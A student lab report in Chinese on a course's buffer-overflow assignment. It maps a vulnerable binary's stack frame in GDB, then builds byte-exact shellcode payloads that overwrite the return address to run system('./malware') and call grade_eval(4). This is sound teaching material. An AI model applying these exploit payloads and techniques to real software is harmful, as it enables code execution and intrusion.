




# AttackLab 实验报告

姓名：周天佑　学号：25300680065　最新更新日期：2026/11/11

本报告分析课程提供的 `attack/dark-calc`、`attack/dark-calc-nx`、`attack/dark-log` 三个二进制与 `attack/malware` 脚本，按五个阶段推进。前两阶段用 GDB 观察 `input` 的栈帧与越界写入，并用五种长度的输入测量写入范围与终止方式；后三阶段利用同一处越界改写返回地址，依次完成执行外部脚本、调用程序自身的 `grade_eval`、在栈不可执行的程序上拼接 ROP 链条、以及在启用栈保护的程序上绕过 canary 检查。每一阶段的字节、寄存器读数与运行输出都来自实测，推断部分在正文中单独标注。

## 阶段一 dark-calc 的 input 栈帧与长度实验

本阶段分析 `attack/dark-calc` 的 `input` 函数，还原它的栈帧布局与各寄存器的取值，并用不同长度的输入记录写入范围与终止方式。

### 1 任务范围与验证环境

本阶段对应 README 中的三项：观察 `input` 栈帧、用不同长度输入测试 `dark-calc`、用 GDB 检查 `main` 的机器码。

被分析的二进制是 `attack/dark-calc`，代码段位于固定地址 `0x400000` 起，因此 `0x401977`、`0x401ad1` 这类代码地址每次运行都一样；栈地址以 `0x7` 开头，受 ASLR 影响每次不同，报告里只比较内容与相对偏移。

查看反汇编所用的命令与工作笔记一致，先在仓库根目录启动 GDB：

```bash
gdb ./attack/dark-calc
```

进入 GDB 后：

```gdb
set pagination off
disassemble input
disassemble main
```

三段反汇编各自导出成文件：`artifacts/01_input.S`、`artifacts/01_eval.S`、`artifacts/01_main.S`。`input` 需要重新导出时用笔记里的那一条：

```bash
objdump -d attack/dark-calc | sed -n "/<input>:/,/^$/p"
```

`eval` 与 `main` 用同样的方式，把函数名换掉即可。运行时观察所用的 GDB 命令针对长度实验，放在第 6 节说明。

### 2 输入格式与判定位置

程序启动后进入 `while(1)` 循环，每一轮先打印提示语，再从标准输入读一行，交给 `input` 处理，随后由 `eval` 拼接命令并执行。

输入是一条以换行为结束的文本行，`gets` 丢弃换行符并补上结束零字节。判定发生在两处，都在 `input` 内部：

| 位置         | 指令               | 判定内容                                 | 判定成立后的走向                          |
| ------------ | ------------------ | ---------------------------------------- | ----------------------------------------- |
| `input+40` | `test %rax,%rax` | `gets` 是否返回 NULL，即读入是否失败   | 跳到 `input+56`，打印答案后 `exit(0)` |
| `input+52` | `test %al,%al`   | 读到的首字符是否为结束零字节，即是否空行 | 不跳，落到 `input+56`                   |

两处判定合起来的效果：读入失败或空行都会打印 `answer` 并直接退出整个进程。

涉及的三个常量地址：

| 地址         | 内容                                       | 用途                |
| ------------ | ------------------------------------------ | ------------------- |
| `0x401ce8` | `Enter an expression (length up to %d):` | `printf` 的格式串 |
| `0x401cd0` | `42_is_The_Ànswer`                      | 空输入或 EOF 时打印 |
| `0x6030d0` | `command_buf`，`0x1f` 字节             | 后半段的命令缓冲区  |

程序期望的输入是 15 个字符以内的表达式，交给 `eval` 拼接成命令后由 shell 执行。超过 15 个字符不会被拒绝，写入会越过数组边界，后果见第 5 节与第 7 节。

### 3 关键数据结构

局部数组在 `input` 的帧内，从 `rbp-0x10` 开始，共 16 字节：

```c
#define MAXLEN 15
char expression[MAXLEN + 1];
```

全局数组在数据段，长度 31 字节，取自 `01_input_annotated.S` 里标注的 `nm -S attack/dark-calc | grep -i command_buf`，输出为 `0x1f`：

```c
char command_buf[MAXLEN + 16];
```

command_buf比第一个数组大15字节，16个字节能装下15个字符，31个字节能装下30个字符。

### 4 逐个函数的分析

#### 4.1 input

`input` 的完整反汇编见 `artifacts/01_input.S`，逐条注释见 `artifacts/01_input_annotated.S`。按功能分成五段：

| 段落       | 指令范围                     | 作用                                                   |
| ---------- | ---------------------------- | ------------------------------------------------------ |
| 序言       | `input+0` 到 `input+7`   | 保存调用者的 `rbp`，建立本帧基址，为数组留出 16 字节 |
| 提示       | `input+8` 到 `input+27`  | 打印提示语，`%d` 填入 `0xf`                        |
| 读取       | `input+28` 到 `input+39` | 把 `rbp-0x10` 交给 `gets`                          |
| 判定       | `input+40` 到 `input+75` | 处理 EOF 与空行，或转入复制                            |
| 复制与收尾 | `input+76` 到 `input+95` | `strcpy` 到 `command_buf`，然后 `leave`、`ret` |

关键一条是 `input+88` 的 `call strcpy@plt`：源地址为 `rbp-0x10`，目的地址为 `0x6030d0`，复制的长度由输入长度决定。这一条把越界后的字节一并带进全局数组。

图 1 是进入函数体之后的相对位置关系。地址取自一次实测的运行，`rbp` 为 `0x...fe0`，数组从 `0x...fd0` 起，返回地址在 `0x...fe8`；实际数值随 ASLR 变化，仅相对偏移可跨运行比较。

```text
高地址
 0x721000801000  +----------------------------+
                 |  上一层帧的内容            |
 0x721000800ff0  +----------------------------+
                 |  返回地址 0x401ad1         |  8 字节
 0x721000800fe8  +----------------------------+
                 |  保存的 rbp 0x721000800ff0 |  8 字节
 0x721000800fe0  +----------------------------+  <- rbp 指向这里
                 |  expression[0..15]         |  16 字节
                 |                            |
 0x721000800fd0  +----------------------------+  <- rsp
低地址
```

图 1  input 进入函数体之后的栈布局。`expression` 占 16 字节，紧随其上是保存的 `rbp`，再往上是返回地址。

#### 4.2 eval

`eval` 先截断，再拼接，完整反汇编见 `artifacts/01_eval.S`：

```c
int len = strlen(command_buf) > MAXLEN ? MAXLEN : strlen(command_buf);
memmove(command_buf + 8, command_buf, len+1);
memcpy(command_buf, wrapper_front, 8);
strcpy(command_buf + 8 + len, wrapper_back);
```

三步分别对应 `0x401a1b`（`memmove`）、`0x401a2f`（`memcpy`）、`0x401a43` 到 `0x401a54`（写入右括号）。右括号写在 `command_buf + 8 + len` 处，于是第 `len+1` 个字符的位置被覆盖。用 16 个 `1` 验证过：`0x401a57` 停下时 `command_buf` 是 `echo $((` 加 15 个 `1` 加 `))`，共 25 个字符，第 16 个 `1` 被右括号覆盖。

截断发生在 `strcpy(command_buf + 8 + len, wrapper_back);` 这一行。它从 `8 + len` 处开始写 `))`，`len` 达到 15 时正好落在第 16 个字符的位置，把多出来的字符挤掉；送入 `system` 的串因此只有 15 个字符的表达式。

#### 4.3 main 与机器码检查

`main` 的反汇编如下（任务 5 的对象），完整导出见 `artifacts/01_main.S`：

```asm
0x401ac3 <+0>:  push   %rbp
0x401ac4 <+1>:  mov    %rsp,%rbp
0x401ac7 <+4>:  mov    $0x0,%eax
0x401acc <+9>:  call   0x401977 <input>
0x401ad1 <+14>: mov    $0x0,%eax
0x401ad6 <+19>: call   0x4019d7 <eval>
0x401adb <+24>: jmp    0x401ac7 <main+4>
```

从这段机器码能读出：

一是 `main` 只有序言没有尾声，`push` 与 `mov` 之后直接进入循环，结尾是 `jmp` 回到 `main+4`，没有 `leave` 也没有 `ret`。循环靠 `exit` 或崩溃退出。

二是 `0x401ad1` 是 `call input` 的下一条指令，它同时就是 `input` 的返回地址，`rbp+8` 那格存放的值。

三是两次 `call` 之前都执行 `mov $0x0,%eax`，这是可变参数调用前清零 `al` 的习惯写法。

三点之中，第二点与后续分析关系最直接：它把 `main` 的循环、`input` 的返回地址与长度实验联系起来。

`0x401ad1` 是 `call input` 后面那条指令。`call` 执行时会把下一条指令的地址压到栈上，因此 `input` 一进入函数，`rbp+8` 那格存放的就是 `0x401ad1`；GDB 里 `x/gx $rbp+8` 读到的正是这个值，`info frame` 也把它列为返回地址。`input` 的 `ret` 把这一格弹进指令指针，程序就从 `0x401ad1` 继续执行，`rsp` 同时回到 `0x...ff0`，与 `rbp` 指向同一个位置。

这 8 个字节决定控制流的去处。输入长度到 24 时，结束零字节落在 `rbp+8`，最低字节从 `d1` 变成 `00`，地址变为 `0x401a00`；长度到 100 时，整格被 `0x31` 填满，`ret` 取到的是一个没有映射的地址。`0x401a00` 落在 `eval` 的中段，说明改写一个字节就足以把控制流送进另一个函数内部，这也是长度实验中 135 与 139 两个不同信号的来源。

### 5 写入长度与越界边界

写入的字节数由输入长度决定，与数组容量无关：

写入字节数 = 输入字符数 + 1（`gets` 补的结束零字节）

按这个式子推算，各个长度落在哪里：

| 输入字符数 | 写入字节数 | 结束零字节落点 | 对应位置                | 实测或推算 |
| ---------- | ---------- | -------------- | ----------------------- | ---------- |
| 3          | 4          | `rbp-0xd`    | 数组内部                | 实测       |
| 15         | 16         | `rbp-0x1`    | 数组最后一字节          | 实测       |
| 16         | 17         | `rbp+0`      | 保存的 `rbp` 最低字节 | 实测       |
| 24         | 25         | `rbp+8`      | 返回地址最低字节        | 实测       |
| 31         | 32         | `rbp+0xf`    | 返回地址最高字节        | 推算       |
| 100        | 101        | 远超整帧       | 未映射区域方向          | 实测       |

另有一条与显示有关的计算关系，来自 `eval`：真正送进 `system` 的算式里，表达式部分最多 15 个字符，命令总长最多 25 个字符（8 个前缀、15 个字符、2 个右括号）。

上述两条关系分属不同的层次。`gets` 按输入长度写栈，写入字节数等于输入字符数加 1，第 16 个字符写到数组最后一字节，第 17 个字节落到保存的 `rbp` 上，第 25 个字节落到返回地址上，数组的 16 字节容量只决定越界从哪一字节开始。`eval` 里的 15 与 25 约束的是送入 shell 的命令串长度。输入 16 个字符时，栈上写入 17 字节，命令串中保留 15 个字符，两个数字由不同的代码决定，记录时可以分开列出。

### 6 GDB 验证记录

字节级的观察按下面的顺序进行。先停到 `input+35`：

```gdb
break *input+35
run
```

为了让每次的输入固定，改用已生成的输入文件重定向，执行 `ni` 时不必再手工键入：

```gdb
run < artifacts/length_input.txt
```

停住后先记录写入前的状态，执行一条 `ni` 走完 `gets`，再记录一次：

```gdb
set $buf = $rdi
set $frame_base = $rbp
x/32xb $buf
ni
x/32xb $buf
x/2gx $frame_base
```

这些命令只读取寄存器与内存，不修改程序状态。

下面三张表分别是序言、`leave` 与 `ret`、区域定位的读数，均在交互式会话中采集。运行时代码地址固定，栈地址每次不同。

序言三条指令的寄存器变化（停在 `input` 入口，连续三次 `ni`）：

| 时刻             | 下一条指令         | `rsp`      | `rbp`      |
| ---------------- | ------------------ | ------------ | ------------ |
| 断点处           | `push %rbp`      | `0x...fe8` | `0x...ff0` |
| 执行 `push` 后 | `mov %rsp,%rbp`  | `0x...fe0` | `0x...ff0` |
| 执行 `mov` 后  | `sub $0x10,%rsp` | `0x...fe0` | `0x...fe0` |
| 执行 `sub` 后  | `mov $0xf,%esi`  | `0x...fd0` | `0x...fe0` |

`leave` 与 `ret`（停在 `input+94`，两次 `ni`）：

| 时刻                     | `rsp`      | `rbp`      | 下一条指令   |
| ------------------------ | ------------ | ------------ | ------------ |
| `leave` 前             | `0x...fd0` | `0x...fe0` | `0x4019d5` |
| `leave` 后、`ret` 前 | `0x...fe8` | `0x...ff0` | `0x4019d6` |
| `ret` 后               | `0x...ff0` | `0x...ff0` | `0x401ad1` |

帧内三块区域的定位（停在 `input+94`，`x/32xb` 与 `x/2gx`）：

| 区域                 | 相对 `rbp` | 字节数 | 依据                                                          |
| -------------------- | ------------ | ------ | ------------------------------------------------------------- |
| `expression`       | `rbp-0x10` | 16     | `sub $0x10,%rsp`，`+28`、`+32` 两条把该地址送进 `rdi` |
| 保存的调用者 `rbp` | `rbp+0`    | 8      | `push %rbp`，读出 `main` 的帧基址                         |
| 返回地址             | `rbp+8`    | 8      | `call` 压栈，值为 `0x401ad1` 即 `main+14`               |

断点位置的选择理由：`input+35` 之前 `lea` 与 `mov` 已经执行完，`rdi` 里就是缓冲区地址，`gets` 尚未调用，执行一条 `ni` 即可拿到写入完成的状态；`input+94` 是 `leave`，此时整帧数据完整，尚未开始拆解。

最有说服力的一次是 24 个 `1` 的写入前后对照。`x/32xb $buf` 在 `ni` 前后各取一次，`x/2gx $frame_base` 同时读出 `rbp` 那格与返回地址那格，三组数字落在同一张表里：数组 16 字节由全零变为 16 个 `0x31`，`rbp` 起 8 字节由 `f0 0f 80 00 10 72 00 00` 变为 8 个 `0x31`，`rbp+8` 首字节由 `d1` 变为 `00`。这一次观察同时给出了越界起点、覆盖内容与零字节落点，比单看崩溃与否更能说明问题。

### 7 验证结果

长度实验的实测结果如下，程序在第二次读取遇到 EOF 后打印答案并 `exit(0)`：

| 输入字符数 | 退出码 | 现象                                             |
| ---------- | ------ | ------------------------------------------------ |
| 3          | 0      | 正常，打印算式与结果后退出                       |
| 15         | 0      | 正常，数组刚好填满                               |
| 16         | 0      | 越界 1 字节，落在保存的 `rbp` 上，退出码仍为 0 |
| 24         | 135    | `SIGBUS`，返回地址被改为 `0x401a00`          |
| 100        | 139    | `SIGSEGV`，跳到无映射地址                      |

越界写入的字节证据（24 个 `1`）：

| 地址                        | 写入前                      | 写入后         | 解释                             |
| --------------------------- | --------------------------- | -------------- | -------------------------------- |
| `rbp-0x10` 到 `rbp-0x1` | 未初始化                    | 16 个 `0x31` | 字符填满数组                     |
| `rbp+0` 到 `rbp+7`      | `f0 0f 80 00 10 72 00 00` | 8 个 `0x31`  | 字符越过边界，覆盖保存的 `rbp` |
| `rbp+8`                   | `d1`                      | `00`         | 结束零字节覆盖返回地址最低字节   |

第一条关于越界位置。写入字节数等于输入字符数加 1，数组只有 16 字节，第 17 个字节起就写到数组之外。24 个 `1` 时，`rbp` 起 8 字节被 `0x31` 填满，`rbp+8` 首字节被零字节改成 `00`，越界的终点落在返回地址的第一字节上。

第二条关于 16 为什么不崩。零字节只改到保存的 `rbp` 的最低字节，`0x...ff0` 变成 `0x...f00`，另外 7 个字节保持原样。`main` 里没有 `leave` 与 `ret`，整格 `rbp` 不会被用来拆帧；唯一用到它的是 `eval` 里的 `mov %eax,-0x4(%rbp)`，写入落在仍然映射的栈上。第二次读取遇到 EOF，程序打印答案后 `exit(0)`，退出码因此是 0。

第三条关于 24 与 100 的信号差异。24 只改返回地址的最低字节，`0x401ad1` 变为 `0x401a00`，这个地址仍在代码段内，`ret` 取到的是合法地址，随后 `0x401a00` 那条指令以 `0x3131313131313131` 作为帧基址访问内存，触发 `SIGBUS`。100 把整格写成 `0x3131313131313131`，`ret` 直接把没有映射的地址送入指令指针，触发 `SIGSEGV`。`SIGBUS` 具体发生在哪一条指令尚未单步验证，这一点在报告中标为推测。

### 8 运行截图

五张截图依次如下，所用命令与断点与第 6 节一致。










前两张支撑第 6 节的三块区域定位表与 `leave`、`ret` 读数，后三张支撑第 7 节的长度实验表与字节证据表。图中数字与正文表格一致，正文不再重复抄录。

### 9 分析中容易混淆的几处

分析过程中值得记录的易错点有四处，按出现顺序如下。

一是地址与值的混淆。`rbp` 那一格的地址是 `0x...fe0`，格里的内容是 `0x...ff0`，这两个数只差 `0x10`，绘制栈图和填写对照表时容易混淆。

二是断点位置与寄存器含义的变化。停在 `input` 入口时 `rdi` 还是上一条调用的残留值，缓冲区地址要等 `+32` 的 `mov %rax,%rdi` 之后才成立；`leave` 之后 `rbp` 的含义从本帧基址变回调用者的基址。

三是跨进程的地址。栈地址每次运行不同，先前记下的 `0x...ff0` 在新进程里不再是同一个值，能跨运行比较的只有代码地址和相对偏移。

四是输出缓冲与观测顺序。重定向到文件时父进程的标准输出是全缓冲，`system` 子进程的输出先落盘，文件里的顺序与终端不同。

前两条在分析中反复出现。地址与值的区别最初没有分清：`rbp` 那一格的地址是 `0x...fe0`，格里的内容是 `0x...ff0`，两者写反会使整张对照表失去意义，此后每填一格都先确认这个数是位置还是内容。断点位置同理，停在 `input` 入口时 `rdi` 仍是上一条调用留下的值，读到 `0x1` 一类数字说明断点设得过早；`leave` 之后 `rbp` 的含义改变，跨过这条指令再比较 `rbp` 已经没有意义。

第三条影响记录方式。栈地址每次运行都不同，先前抄下的 `0x...ff0` 在新进程里对应别的字节，所以报告里只写相对偏移与内容，绝对地址留作当次运行的截图说明。

第四条解释了一个反直觉的现象。终端里看到“提示语、`Executing`、结果”的顺序，重定向到文件后变成“结果、提示语、`Executing`”，原因是父进程的标准输出经过文件时按全缓冲处理，子进程的输出直接落盘。记录输出顺序时需要说明是哪种运行方式，否则同一组实验会出现两种“事实”。

## 阶段二 利用缓冲区漏洞执行 ./malware

本阶段的目标是让 `attack/dark-calc` 执行同目录下的 `attack/malware`，终端出现 `### You have successfully detonated the bomb! ###`。做法是用 `gets` 的越界写改写 `input` 的返回地址，让函数返回到数组首字节，并在那段空间里放入一小段调用 `system` 的机器码。

### 1 输入格式与判定位置

输入仍是一行文本，由 `gets` 读入 `expression`，长度不受 16 字节限制。

本阶段有两层判定。程序内的两处与阶段一相同：`input+40` 判断是否读到内容，`input+52` 判断是否为空行，两处成立时打印答案并 `exit(0)`。第二层判定在 `attack/malware` 脚本里，它用 `ps -o ppid=` 从自己开始逐级上溯，取每一级父进程的 `comm`，一旦等于 `dark-calc` 就置位并跳出，走到 1 号进程仍未命中则判定失败。

这意味着攻击方式受到约束：`dark-calc` 这个进程必须留在祖先链上。

### 2 关键数据结构

阶段一测得的两块缓冲区不变：`expression` 在 `input` 帧内，占 16 字节；`command_buf` 在数据段 `0x6030d0`，占 31 字节。

本阶段新增一个全局变量 `fixed_stack_top`，位于 `0x6030f0`，保存固定栈的顶端地址。程序运行时的栈布局如下：

| 项目 | 值 | 依据 |
| --- | --- | --- |
| 栈区间 | `0x721000001000` 到 `0x721000801000`，跨度 8 MB | `info proc mappings` |
| 权限 | `rwxp` | 同上 |
| 区间两侧 | 各一页 `---p` 隔离页 | 同上 |
| `fixed_stack_top` | `0x721000801000` | `p/x *(unsigned long*)0x6030f0` |
| `main` 入口的 `$rsp` | `0x721000800ff0` | `break main` 后读数 |

与 `attack/dark-calc-nx` 对比，后者的 `$rsp` 落在 `0x7fff` 区域的 `[stack]` 段，权限为 `rw-p`，没有可执行位。

### 3 启动阶段的两个函数

`init_fixed_stack` 是构造函数，在 `main` 之前执行。它调用 `mmap` 的参数如下：

| 寄存器 | 值 | 含义 |
| --- | --- | --- |
| `%rdi` | `0x721000000000` | 请求的起始地址 |
| `%rsi` | `0x802000` | 长度，8 MB 加两页 |
| `%rdx` | `0x7` | 权限，可读、可写、可执行 |
| `%rcx` | `0x100022` | 标志，`MAP_PRIVATE` 加 `MAP_ANONYMOUS` 加 `MAP_FIXED_NOREPLACE` |
| `%r8` | `-1` | 文件描述符，无文件后端 |
| `%r9` | `0` | 文件内偏移 |

映射完成后连续两次 `mprotect`，把首尾各一页设为不可访问，再把 `base + 0x801000` 写入 `fixed_stack_top`。由于用了 `MAP_FIXED_NOREPLACE`，地址被占用时内核直接返回错误，代码随后检查返回值是否等于请求地址，不等就报错退出。

`__wrap_main` 是链接器用 `--wrap=main` 生成的入口。它先把原栈指针存进 `%r12`，再把 `fixed_stack_top` 的值装入 `%rsp`，然后 `call main`。`main` 返回后恢复原栈指针。

两个函数合起来的效果：`main` 及其下游函数一直运行在同一块固定地址的可执行内存上，`input` 的帧基址每次都是 `0x721000800fe0`，数组首字节每次都是 `0x721000800fd0`。这为硬编码地址提供了前提。

### 4 攻击方案

`input` 的帧布局与阶段一一致：数组占 `rbp-0x10` 到 `rbp-0x1`，保存的 `rbp` 占 `rbp` 到 `rbp+7`，返回地址在 `rbp+8`。从数组首字节到返回地址共 24 字节。

有两种执行 `./malware` 的方式，选择由 `malware` 的判定决定：

`execve` 会把当前进程的程序整个替换。替换之后进程名改变，祖先链上不再有 `dark-calc`，脚本会判定失败。

`system` 会派生一个子进程，在子进程里执行 `/bin/sh -c` 命令，父进程等待结束。`dark-calc` 保留原样，脚本上溯两级即可命中。

因此代码需要完成两件事：把命令字符串的地址放进 `%rdi`，调用 `system@plt`（`0x4017e0`）。字符串 `./malware` 放在 payload 末尾，地址为 `0x721000800fd0 + 0x20`，即 `0x721000800ff0`。

三条指令与机器码：

```asm
    movabs $0x721000800ff0, %rdi     # 48 bf f0 0f 80 00 10 72 00 00
    movabs $0x4017e0, %rax           # 48 b8 e0 17 40 00 00 00 00 00
    call   *%rax                     # ff d0
```

共 22 字节，用两个 `0x90` 补到 24 字节。

payload 的构成：

| 偏移 | 长度 | 内容 |
| --- | --- | --- |
| 0 到 21 | 22 | 上述三条指令 |
| 22 到 23 | 2 | `0x90` 填充 |
| 24 到 31 | 8 | `0x721000800fd0` 的小端表示 |
| 32 到 41 | 10 | `./malware` 加一个零字节 |
| 42 | 1 | 换行符，结束 `gets` |

总长 43 字节。整串里没有 `0x0a`，`gets` 不会被中途截断。

### 5 验证记录与结果

落位检查在 `input+94`（`leave`）之前进行，`x/36xb $rbp-0x10` 的读数：

| 地址 | 内容 | 对应 |
| --- | --- | --- |
| `0x...fd0` 起 22 字节 | `48 bf f0 0f 80 00 10 72 00 00 48 b8 e0 17 40 00 00 00 00 00 ff d0` | 三条指令 |
| `0x...fe6` 到 `0x...fe7` | `90 90` | 填充 |
| `0x...fe8` 到 `0x...fef` | `d0 0f 80 00 10 72 00 00` | 新的返回地址 |
| `0x...ff0` 起 | `2e 2f 6d 61 6c 77 61 72 65 00` | `./malware` |

同一位置 `x/4i $rbp-0x10` 的反汇编：

```text
0x721000800fd0: movabs $0x721000800ff0,%rdi
0x721000800fda: movabs $0x4017e0,%rax
0x721000800fe4: call   *%rax
0x721000800fe6: nop
```

指令边界与设计一致，返回地址写在第 25 到第 32 个字节上。

在 `attack/` 目录下运行 `./dark-calc < payload.bin`，输出末尾为：

```text
### The bomb was triggered by the dark-calc process. ###
### You have successfully detonated the bomb! Congratulations! ###
```

`system` 返回后进程以 `SIGSEGV` 终止，退出码 139。原因是执行完那三条指令之后，栈指针指向的位置没有合法的返回地址；成功信息在崩溃前已经写出，不影响判定。

落位与运行结果对应的三张记录如下。

![图 7 固定栈的映射与权限，只截取了 `0x7210` 区间与末尾的 `[stack]` 行。`0x721000000000` 与 `0x721000801000` 各有一页 `---p` 隔离，中间 8 MB 权限为 `rwxp`；`[stack]` 是切换前使用的常规栈，权限为 `rw-p`。](artifacts/images/02-stack-map.png)


### 6 分析中容易混淆的几处

一是执行方式与进程树的关系。`execve` 与 `system` 都能启动脚本，差别在于是否保留调用者进程。`malware` 沿父进程链查找进程名，`execve` 会让 `dark-calc` 这个名字从链上消失，`system` 才会把它留在链上。选择函数之前应先确定进程树的变化，这比记住结论更可靠。

二是可执行栈的来源。常见程序的栈段权限是 `rw-`，把机器码放进栈里执行会立刻触发段错误。这份二进制靠构造函数 `mmap` 出一块权限为 `rwx` 的区域并把 `rsp` 切过去，栈上执行才有条件成立。看到“把代码放到栈上”这种思路时，先确认这份二进制的栈权限，不把它当作通用前提。

三是地址与值的区分。`fixed_stack_top` 里放的是栈顶地址，`0x6030f0` 是存放它的位置；返回地址那一格同理，`0x721000800fe8` 是位置，`0x721000800fd0` 是要填进格里的值。两类数字混用，整张对照表都会失去意义。

四是两套终止规则同时起作用。`gets` 遇到 `0x0a` 停止读取，`strcpy` 遇到 `0x00` 停止复制。payload 里出现 `0x0a` 会真正截断输入，出现 `0x00` 只影响复制进 `command_buf` 的内容，已经写进栈的字节不受影响。判断哪个字节必须避开时，先分清是哪条规则在起作用。

## 阶段三 栈空间执行

本阶段与阶段二共用同一套机制：用越界写改写 `input` 的返回地址，让函数返回到数组首字节，执行放在那里的机器码。区别在于这次不启动外部程序，而是调用程序自身的 `grade_eval`，参数设为 4。

### 1 输入格式与判定位置

输入仍是一行文本，`gets` 写入 16 字节的 `expression`，没有长度检查。

判定位于 `grade_eval` 内部：`cmpl $0x4,-0x4(%rbp)` 比较参数与 4，相等才打印，否则直接返回。与阶段二相比，本阶段没有进程祖先检查，目标函数位于同一程序内。

### 2 关键数据结构

栈的性质与阶段二相同：固定基址、8 MB、权限 `rwxp`，数组首字节 `0x721000800fd0`，返回地址所在格 `0x721000800fe8`，两者相隔 24 字节。

本阶段用到的两个常量：

| 符号或地址 | 值 | 用途 |
| --- | --- | --- |
| `grade_eval` | `0x401a87` | 被调用的函数入口 |
| `0x401d20` | `"\n\033[31m Hope %c will be your grade! \n"` | `printf` 的格式串 |

### 3 grade_eval 的分析

```asm
401a87: push   %rbp
401a88: mov    %rsp,%rbp
401a8b: sub    $0x10,%rsp
401a8f: mov    %edi,-0x4(%rbp)      # 参数存进局部变量
401a92: cmpl   $0x4,-0x4(%rbp)      # 与 4 比较
401a96: jne    401ab1 <grade_eval+0x2a>
401a98: mov    $0x45,%eax           # 0x45 减参数
401a9d: sub    -0x4(%rbp),%eax
401aa0: mov    %eax,%esi            # 结果作为 printf 的第二个参数
401aa2: mov    $0x401d20,%edi       # 格式串地址作为第一个参数
401aa7: mov    $0x0,%eax
401aac: call   printf@plt
401ab1: mov    stdout,%rax
401ab8: mov    %rax,%rdi
401abb: call   fflush@plt
```

参数为 4 时，`0x45 - 4` 等于 `0x41`，即字符 `A`，填进格式串的 `%c`。前面的 `\033[31m` 让终端把这一行显示成红色。

函数本身不再做别的判断，参数不等于 4 就跳过打印，什么也不输出。

### 4 机器码

需要三条指令：把 4 放进参数寄存器、把 `grade_eval` 的地址取进一个寄存器、调用它。

```asm
    mov    $4, %edi                  # bf 04 00 00 00
    movabs $0x401a87, %rax           # 48 b8 87 1a 40 00 00 00 00 00
    call   *%rax                     # ff d0
```

共 17 字节。`%edi` 是 32 位写法，`mov` 会自动把 `%rdi` 的高 32 位清零，正好满足参数要求；`0x401a87` 超过 32 位，需要 `movabs` 才能装进 64 位寄存器。

把目标寄存器换成 `%r8` 也能工作，但 `call *%r8` 需要多一个 REX 前缀字节，总长变成 18 字节，收益只是腾出 `%rax`。

### 5 payload 的构成

| 偏移 | 长度 | 内容 |
| --- | --- | --- |
| 0 到 16 | 17 | 上述三条指令 |
| 17 到 23 | 7 | `0x90` 填充 |
| 24 到 31 | 8 | `0x721000800fd0` 的小端表示 |
| 32 | 1 | 换行符 |

总长 33 字节。与阶段二相比少了字符串，长度从 43 降到 33。

### 6 验证过程与结果

停在 `input+94`（`leave`）之前，`x/4i $rbp-0x10` 的反汇编：

```text
0x721000800fd0: mov    $0x4,%edi
0x721000800fd5: movabs $0x401a87,%rax
0x721000800fdf: call   *%rax
0x721000800fe1: nop
```

`x/2gx $rbp` 的读数：保存的 `rbp` 那格被填充字节覆盖，返回地址那格为 `0x721000800fd0`。`call` 只占两个字节，所以下一条指令落在 `0x...fe1`。

运行后输出一行红字：

```text
 Hope A will be your grade!
```

随后进程以 `SIGSEGV` 终止，退出码 139。原因与阶段二相同：`grade_eval` 返回后，控制流落到填充的 `0x90` 上，继续往下执行到返回地址那 8 个字节，那串数据不是合法指令。

本次落位与运行的文件如下。


### 7 与阶段二的差异

| 项目 | 阶段二 | 阶段三 |
| --- | --- | --- |
| 目标 | 启动外部程序 `./malware` | 调用本程序的 `grade_eval` |
| 指令条数 | 3 条 | 3 条 |
| 机器码长度 | 22 字节 | 17 字节 |
| 是否需要字符串 | 需要，`./malware` | 不需要 |
| payload 长度 | 43 字节 | 33 字节 |
| 参数设置 | 字符串地址放进 `%rdi` | 数值 4 放进 `%edi` |

两关的差别集中在最后几条指令上：改写返回地址、跳到数组首字节这套机制完全相同，换的是被调用的目标与参数。

### 8 记录

一是 `movabs` 的适用范围。它只能把立即数装进 64 位寄存器，目标写成 `%edi` 会直接报 `operand type mismatch`。32 位目标用普通 `mov`，超过 32 位的地址才需要 `movabs`。

二是 `sub` 的方向。打印的字母由 `0x45` 减参数得到，参数为 4 得到 `A`。读反了会以为参数越大字母越靠后，验算一次就能确认。

